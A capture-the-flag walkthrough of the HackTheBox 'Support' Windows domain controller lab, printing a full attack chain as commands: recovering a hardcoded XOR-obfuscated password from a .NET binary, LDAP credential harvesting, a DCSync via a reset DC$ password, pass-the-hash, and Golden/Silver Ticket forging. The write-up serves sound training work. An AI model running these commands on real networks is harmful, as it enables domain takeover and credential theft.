


# HackTheBox - Support

* **Machine:** Support
* **Platform:** HackTheBox
* **Category:** Machine
* **Difficulty:** Easy
* **OS:** Windows

## Enumeration

First, I scanned the target to identify open ports and running services:

```bash
nmap -sC -sV $ip
PORT      STATE SERVICE      REASON          VERSION
53/tcp    open  domain       syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2026-10-14 12:05:16Z)
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
593/tcp   open  ncacn_http   syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped   syn-ack ttl 127
3268/tcp  open  ldap         syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped   syn-ack ttl 127
5985/tcp  open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf       syn-ack ttl 127 .NET Message Framing
49664/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49678/tcp open  ncacn_http   syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49692/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49697/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49713/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
```

The scan revealed services associated with Windows Active Directory, including LDAP, Kerberos, and WinRM.

Next, I enumerated the available SMB shares:

```bash
smbclient -L ////$ip// 
    Sharename       Type      Comment
    ---------       ----      -------
    ADMIN$          Disk      Remote Admin
    C$              Disk      Default share
    IPC$            IPC       Remote IPC
    NETLOGON        Disk      Logon server share 
    support-tools   Disk      support staff tools
    SYSVOL          Disk      Logon server share 
```

The `support-tools` share was accessible. I connected to it and downloaded `UserInfo.exe.zip`:

```bash
smbclient -N //$ip/support-tools 
```

```text
smb: \> get UserInfo.exe.zip
```

After extracting the archive, I identified `UserInfo.exe` as a .NET application using `rabin2`:

```bash
rabin2 -i UserInfo.exe
nth vaddr      bind type lib         name
-----------------------------------------
1   0x00402000 NONE FUNC mscoree.dll _CorExeMain
```

## Initial Access

I used `ilspycmd` to decompile the application and inspect its source code:

```bash
unzip UserInfo.exe.zip
ilspycmd -p -o reverse_userinfo UserInfo.exe
```

The source code revealed an encrypted password protected using a hardcoded XOR key:

```C#
internal class Protected
{
        private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";

        private static byte[] key = Encoding.ASCII.GetBytes("armando");

        public static string getPassword()
        {
                byte[] array = Convert.FromBase64String(enc_password);
                byte[] array2 = array;
                for (int i = 0; i < array.Length; i++)
                {
                        array2[i] = (byte)((uint)(array[i] ^ key[i % key.Length]) ^ 0xDFu);
                }
                return Encoding.Default.GetString(array2);
        }
}
```



I decrypted the password stored in `UserInfo.exe` and identified it as belonging to the `ldap` service account.

Using these credentials, I queried Active Directory to enumerate members of the `Remote Management Users` group:

```bash
ldapsearch -x -H ldap://$ip \
 -D 'ldap@support.htb' \
 -w '<LDAP_PASSWORD>' \
 -b "DC=support,DC=htb" \
 "(cn=Remote Management Users)"
```

```text
member: CN=support,CN=Users,DC=support,DC=htb
```

The results revealed that the `support` user was a member of the `Remote Management Users` group. I queried the user's LDAP attributes to find additional information:

```bash
ldapsearch -x -H ldap\://$ip \
 -D 'ldap@support.htb' \
 -w '************************************' \
 -b 'DC=support,DC=htb' \
 '(sAMAccountName=support)'
```

The `info` attribute contained the password for the `support` user.

Using these credentials, I connected to the target through WinRM:
```bash
evil-winrm -i $ip -u 'support' -p '************************'
```

I checked the current user's identity and group memberships:

```text
*Evil-WinRM* PS C:\Users\support\Desktop> whoami /all

USER INFORMATION
----------------

User Name       SID
=============== =============================================
support\support S-1-5-21-1677581083-3380853377-188903654-1105

Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
SUPPORT\Shared Support Accounts            Group            S-1-5-21-1677581083-3380853377-188903654-1103 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192
```

The output showed that the user belonged to the `SUPPORT\Shared Support Accounts` group. I retrieved the user flag:

```powershell
type C:\Users\support\Desktop\user.txt
```

## Privilege Escalation

I collected Active Directory information using `bloodhound-ce-python`:

```bash
bloodhound-ce-python -u support -p '************************' -d 'support.htb' -dc 'support.htb' -ns $ip -c All --zip
```

BloodHound revealed that the `Shared Support Accounts` group had `GenericAll` permissions over the Domain Controller computer object, `DC$`.



I used this permission to reset the computer account's password from the PowerShell session:

```powershell
Set-ADAccountPassword -Identity 'DC$' -Reset -NewPassword (ConvertTo-SecureString 'NewPass123!' -AsPlainText -Force)
```

Next, I used `secretsdump.py` to perform a DCSync attack and retrieve the Administrator NTLM hash:

```bash
secretsdump.py 'support.htb/DC$:NewPass123!'@$ip 
```

Using the retrieved NTLM hash, I authenticated as Administrator through WinRM:

```bash
evil-winrm -i $ip \
 -u 'support.htb\Administrator' \
 -H 'NTLM_HASH'
```

Replace `NTLM_HASH` with the Administrator hash obtained from the previous command.

## Root Flag

After gaining Administrator access, I retrieved the root flag:

```powershell
type C:\Users\Administrator\Desktop\root.txt
```

## Persistence

After obtaining both flags, I experimented with generating Silver and Golden Tickets using Impacket's `ticketer`:

```bash
## Silver ticket
impacket-ticketer -nthash \<ntlm-dc> -spn cifs/dc.support.htb -domain support.htb -domain-sid S-1-5-21-1677581083-3380853377-188903654 -dc-ip $ip Administrator

## Golden ticket
impacket-ticketer -nthash \<ntlm-krbtgt> -domain support.htb -domain-sid S-1-5-21-1677581083-3380853377-188903654 -dc-ip $ip Administrator
```

## Summary

Support demonstrates how an accessible SMB share can expose a .NET application containing recoverable credentials. These credentials enable LDAP enumeration and access as `support`. A `GenericAll` permission on the Domain Controller computer account can then be abused to reset its password and perform a DCSync attack to obtain the Administrator NTLM hash.